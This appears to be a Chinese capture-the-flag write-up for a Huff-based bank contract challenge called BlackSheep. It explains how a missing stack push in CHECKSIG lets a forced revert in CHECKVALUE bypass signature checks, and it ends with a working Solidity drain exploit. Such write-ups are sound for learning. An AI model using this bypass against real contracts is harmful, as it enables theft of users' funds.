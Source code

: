 **BlackSheep**

**Goal**

```rust
Bank.balance == 0;
```

**Solution**

目的是从`Bank`中取出所有的存款。

我不是很了解`Huff`，所以基本在通过`AI`解题。

开头定义了`withdraw`接口:

```solidity
function withdraw(bytes32,uint8,bytes32,bytes32) payable returns ()
```

代码中定义了`withdraw`会调用`CHECKVALUE`和`CHECKSIG`。

我们的目的是为了调用

```solidity
selfbalance caller
gas call
end jump
```
前提条件
```solidity
 iszero iszero noauth jumpi
```
就是`CHECKSIG`返回`0`，也就是签名和`xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044` 相等，很显然这是不可能的，所以我们就要想想办法。

后面我看到`CHECKSIG`其实根本没有把值推到栈上，而是end返回了:

```solidity
    0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044 eq correctSigner jumpi
```

如果匹配错误，`0 jumpi` 其实根本不会执行，而是直接执行下一行`end jump` 这说明什么？

我们不需要思考如何绕过验证`signer`，我们只需要让`CHECKVALUE`() `revert`就好了，这样栈顶的值就会是`0`，从而成功绕过，那么让`CHECKVALUE() revert`其实很简单，我们只需要定义一个合约在他的`fallback`函数中`revert` 即可。

**Exp**

```solidity
contract Exploit {
    function exp(ISimpleBank bank) external payable {
        bank.withdraw{value: 10}(
            0x0000000000000000000000000000000000000000000000000000000000000000,
            0x00,
            0x0000000000000000000000000000000000000000000000000000000000000000,
            0x0000000000000000000000000000000000000000000000000000000000000000
        );
    }

    fallback() external payable {
        require(msg.value > 30);
    }
}
```
